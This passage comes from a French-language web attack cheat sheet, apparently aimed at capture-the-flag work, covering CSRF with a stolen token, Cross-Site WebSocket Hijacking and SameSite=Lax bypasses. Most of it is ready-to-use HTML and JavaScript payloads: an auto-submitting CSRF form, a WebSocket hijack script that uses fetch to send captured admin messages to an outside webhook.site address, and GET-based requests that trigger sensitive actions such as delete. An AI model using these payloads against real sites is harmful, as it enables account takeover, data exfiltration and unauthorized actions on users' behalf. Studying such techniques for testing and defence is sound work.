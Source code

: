 **Étape 2 - Utilisation du token** :

```html
<form action="http://target.com/profile" method="post" name="csrf_form">
    <input type="text" name="username" value="attacker">
    <input type="checkbox" name="status" checked>
    <input type="hidden" name="token" value="" id="token"/>
</form>

<script>
// Injection du token volé
document.getElementById('token').setAttribute('value', token);
// Soumission automatique
document.csrf_form.submit();
</script>
```

#### 3. Cross-Site WebSocket Hijacking (CSWSH)

**Contexte** : WebSocket sans vérification d'origine

```html
<!DOCTYPE html>
<html>
<body>
<script>
    // Connexion au WebSocket avec les cookies de l'admin
    var ws = new WebSocket('ws://target.com:port/ws');
    
    // Réception des messages
    ws.onmessage = function(event) {
        // Exfiltration vers notre serveur
        fetch('https://webhook.site/xxx', {
            method: 'POST', 
            mode: 'no-cors', 
            body: event.data
        });
    };
    
    // Envoi de commandes
    ws.onopen = function() {
        ws.send("hello");           // Reconnaissance
        ws.send("Get the flag");    // Commande sensible
    };
</script>
</body>
</html>
```

#### 4. Bypass SameSite Lax

**Contexte** : Cookie `SameSite=Lax` contournable via GET

```html
<!-- Navigation top-level (GET) peut contourner SameSite=Lax -->
<script>
window.location = "https://target.com/sensitive-action?param=value";
</script>

<!-- Ou via iframe avec navigation -->
<iframe src="https://target.com/sensitive-get-endpoint?action=delete"></iframe>
```
